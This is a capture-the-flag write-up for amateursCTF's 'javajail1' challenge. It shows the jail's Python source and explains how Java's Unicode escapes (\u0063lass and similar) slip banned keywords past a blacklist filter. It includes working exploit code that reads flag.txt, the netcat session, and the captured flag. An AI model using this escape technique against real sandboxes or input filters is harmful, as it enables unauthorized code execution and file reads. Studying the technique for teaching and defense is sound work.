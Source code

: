 ## jail/javajail1

solved by vulnx https://vulnx.github.io/

## chall description

Good luck getting anything to run.

nc chal.amt.rs 2103

![javajail1](assets/image.png)

### Analysis

```python
#!/usr/local/bin/python3

import subprocess

BANNED = ['import', 'class', 'Main', '{', '}'] # good luck getting anything to run

print('''
      Welcome to the Java Jail.
      Have fun coding in Java!
      ''')

print('''Enter in your code below (will be written to Main.java), end with --EOF--\n''')

code = ''
while True:
    line = input()
    if line == '--EOF--':
        break
    code += line + '\n'

for word in BANNED:
    if word in code:
        print('Not allowed')
        exit()

with open('/tmp/Main.java', 'w') as f:
    f.write(code)

print("Here's your output:")
output = subprocess.run(['java', '-Xmx648M', '-Xss32M', '/tmp/Main.java'], capture_output=True)
print(output.stdout.decode('utf-8'))
```

again we get to execute any java program but we have a list of banned words which must be avoided ( we will see how to tackle those in a while but for now let's make a sample program to print out the flag )

```java
import java.io.*;

class main {
    public static void main(String args[]) throws Exception {
            FileInputStream fis = new FileInputStream("./flag.txt");
            BufferedReader br = new BufferedReader(new InputStreamReader(fis));
            String line;
            while ((line = br.readLine()) != null) {
                System.out.println(line);
            }
            br.close();
    }
}
```

### Vulnerability

> A compiler for the Java programming language ("Java compiler") first recognizes Unicode escapes in its input, translating the ASCII characters `\u` followed by four hexadecimal digits to the UTF-16 code unit ([§3.1](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html#jls-3.1 "3.1. Unicode")) of the indicated hexadecimal value, and passing all other characters unchanged.
> 
> ~ [Source](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html)

Basically if we replace the `c` of `class` with `\u0063` in the source code and compile it again, we will see that it compiles without any error and prints the flag locally.

### Exploit

If we repeat the same for every banned word in the source code we get the following java code:

```java
\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
          System.out.println(line);
      \u007d
      br.close();
    \u007d
\u007d
```

```console
$ nc chal.amt.rs 2103

      Welcome to the Java Jail.
      Have fun coding in Java!

Enter in your code below (will be written to Main.java), end with --EOF--

\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
          System.out.println(line);
      \u007d
      br.close();
    \u007d
\u007d
--EOF--

Here's your output:
amateursCTF{yeah_this_looks_like_a_good_feature_to_me!}
```

### Flag

`amateursCTF{yeah_this_looks_like_a_good_feature_to_me!}`
